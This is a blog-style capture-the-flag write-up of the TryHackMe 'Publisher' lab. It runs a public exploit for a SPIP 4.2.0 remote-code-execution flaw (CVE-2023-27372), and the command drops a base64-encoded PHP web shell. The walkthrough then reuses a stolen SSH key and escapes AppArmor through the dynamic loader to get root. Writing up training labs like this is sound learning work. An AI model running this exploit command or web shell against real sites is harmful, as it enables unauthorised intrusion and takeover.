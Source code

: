 ```yaml
---
title: 'TryHackMe: Publisher'
author: AmcaQt
categories: [TryHackMe]
tags: [web, enumeration, rce, Boot2Root, Directory Fuzzing, Privilege Escalation]
render_with_liquid: false
media_subpath: /images/thm_publisher/
image:
  path: room_card.png
date: 2024-09-10 00:00 +0000
---
```


![Tryhackme Room Link](room_image.PNG){: width="600" height="150" .shadow }
_<https://tryhackme.com/r/room/publisher>_

## Description

The **Publisher** CTF machine is a simulated environment hosting some services. Through a series of enumeration techniques, including directory fuzzing and version identification, a vulnerability is discovered, allowing for Remote Code Execution (RCE). Attempts to escalate privileges using a custom binary are hindered by restricted access to critical system files and directories, necessitating a deeper exploration into the system's security profile to ultimately exploit a loophole that enables the execution of an unconfined bash shell and achieve privilege escalation.

## Gain a Flag

### Enumaration

#### Nmap Scan

```
┌──(root㉿amca)-[/home/amca]
└─# nmap -A -sC -sV -T5 10.10.125.110
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-28 03:54 EST
Warning: 10.10.125.110 giving up on port because retransmission cap hit (2).
Nmap scan report for publisher.thm (10.10.125.110)
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Publisher's Pulse: SPIP Insights & Tips
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

Theres two open ports

- 22/SSH
- 80/HTTP

At `MACHINE_IP` we found a static page about `SPIP CMS`

![Web Page](page.PNG)

#### What is the user flag?

Using [Gobuster](https://www.kali.org/tools/gobuster/) we found one directory leads to another clue `/spip`, that shows installation of SPIP CMS

then using [WhatWeb](https://www.kali.org/tools/whatweb/) will give us another clue, that shows version of SPIP is outdated 

![SPIP Version](1-version.PNG)
_SPIP Version 4.2.0_

Did some research online and found about the [exploit](https://github.com/nuts7/CVE-2023-27372) and PoC of the Vulnerabilities which is `Remote Code Execution`

Use the exploit that found on the github, and procced using this command : ~

```
┌──(root㉿amca)-[/home/amca/CVE-2023-27372]
└─# python3 CVE-2023-27372.py -u http://publisher.thm/spip/ -c 'echo PD89YCRfR0VUW2NtZF1gPz4= | base64 -d > shell.php'
```

> -u SPIP application base URL
> -c Command to Execute

now we got shell on the website to make our job easier
> `http://publisher.thm/spip/shell.php`

![](user.jpg)

### Examining the Filesystem

Notice theres `.ssh` directory inside the `/home/think`, I think maybe we can access using ssh key ?

Downloading the `id_rsa` key and testing it against the SSH service as the `think` user, we get a shell on the host.

```
ssh -i amca_key think@MACHINE_IP
think@publisher:~$ id
uid=1000(think) gid=1000(think) groups=1000(think)
```

nice one, using this much easier

### What is the root flag?

Looking for any binaries with a `SUID` bit set, we found `/usr/sbin/run_container`

Using `strings` i have found that it actually executes a bash script from the `/opt` folder

![](2.jpg)

We have write permissions on `/opt/run_container.sh`

```
think@publisher:~$ ls -la /opt/run_container.sh
-rwxrwxrwx 1 root root 1715 Jan 10 12:40 /opt/run_container.sh
But if we try to write to it, we get permission denied.
```

Using [Linpeas] to gain more info, that's when we found that `AppArmor` is enabled and our shell is not `bash` but `ash`, then we also see that there is an AppArmor profile for our current shell

![](3.PNG)

Now lets use kernel library to spawn an unconfined bash shell

`/ld-linux-x86–64.so.2 /bin/bash`

When this command is executed, it uses the specified `dynamic linker/loader (ld-linux-x86–64.so.2)` to load the required shared libraries and start the `/bin/bash` shell. This method of invoking the linker/loader directly with a binary is a way to execute a binary by explicitly specifying the dynamic linker/loader to use for that particular binary.

then run the file we found earlier `run_container.sh`, and we're `r00t`

![Root Flag](root.jpg)

## Conclusion

Stress a lil bit, but its a fun room. 

## Happy Hacking

![](https://i.pinimg.com/originals/f7/8a/03/f78a0369ac804cd9276d73ec37b6b3e8.gif)
